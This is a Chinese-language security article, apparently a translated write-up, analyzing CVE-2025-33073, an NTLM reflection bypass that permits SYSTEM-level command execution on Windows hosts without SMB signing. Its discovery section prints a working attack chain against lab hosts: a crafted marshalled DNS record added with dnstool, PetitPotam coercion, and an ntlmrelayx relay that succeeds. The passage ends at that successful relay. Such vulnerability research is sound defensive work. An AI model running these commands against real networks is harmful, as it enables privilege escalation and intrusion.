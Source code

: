 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzAxMjYyMzkwOA==&mid=2247530877&idx=1&sn=43ab9caedb1be5d8bac6e2151506458f

#  NTLM反射已死，NTLM反射万岁！——CVE-2025-33073深度分析  
 Ots安全   2025-06-14 06:11  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
> 近二十年来，Windows 一直饱受 NTLM 反射漏洞的困扰。本文将介绍CVE-2025-33073，这是一个逻辑漏洞，它可以绕过 NTLM 反射缓解措施，并允许经过身份验证的远程攻击者在任何未强制执行 SMB 签名的计算机上以 SYSTEM 权限执行任意命令。本篇博文将详细介绍该漏洞的发现、根本原因的完整分析以及微软的补丁程序。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadyqXG7lm1lAa9cAe0DiaLbRLl1icCGpo957lHeiaGNLQaNmH1Y8Jyic6ibbtBI11VtgO1rOUBgrjZNkfw/640?wx_fmt=png&from=appmsg "")  
  
  
介绍  
  
NTLM 反射是 NTLM 身份验证中继的一种特殊情况，其中原始身份验证被中继回发起身份验证的计算机。此类漏洞最初通过 MS08-68 公开发布，微软阻止了 SMB 到 SMB 的 NTLM 反射。多年来，其他利用向量也被发现并修补，例如 HTTP 到 SMB 的反射（已在 MS09-13 中修补）或 DCOM 到 DCOM 的反射（已在 MS15-076 中修补）。  
  
如今，人们普遍认为 NTLM 反射攻击向量是固定的，但有时一些研究表明，绕过缓解措施只是深入研究缓解措施的实际作用的问题。  
  
最近，一条表明 Kerberos 反射不受限制的推文引起了我们的兴趣，并促使我们更深入地研究身份验证反射。  
  
漏洞发现  
  
作为测试的基准，让我们看看尝试将 SMB 身份验证中继回同一台计算机时会发生什么。我们的测试机器 (SRV1) 是最新的 Windows Server 2022，已加入域，且未强制执行 SMB 签名：  
  

```
$ PetitPotam.py -u loki -p loki -d ASGARD.LOCAL 192.168.56.3 SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

# ntlmrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from192.168.56.14, attacking target smb://SRV1.ASGARD.LOCAL
[-] Authenticating against smb://SRV1.ASGARD.LOCAL as ASGARD/SRV1$ FAILED
```

  
  
PetitPotam 强制 SYSTEM 服务 ( lsass.exe) 向受控机器进行身份验证，因此会收到机器账户身份验证。由于身份验证源自同一台机器，因此中继失败。  
  
为了寻找异常行为，我们调整了不同的参数，例如侦听器主机或客户端 IP 地址。我们注册了  
srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA   
DNS 记录，并将其指向我们的 IP 地址。这种格式最初由 James Forshaw 记录，并在我们之前的一篇博文中进行了探讨，它可以用来强制机器通过 Kerberos 身份验证到受控的 IP 地址。当我们使用之前的 DNS 记录强制 SRV1 作为侦听器时，我们偶然发现了一个奇怪的行为：中继居然成功了！      
  

```
$ dnstool.py -u 'ASGARD.LOCAL\loki' -p loki 192.168.56.10 -a add -r srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.56.3
[-] Adding new record
[+] LDAP operation completed successfully

$ PetitPotam.py -u loki -p loki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

# ntlmrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from192.168.56.14, attacking target smb://SRV1.ASGARD.LOCAL
[*] Authenticating against smb://SRV1.ASGARD.LOCAL as / SUCCEED
[*] Service RemoteRegistry isin stopped state
```
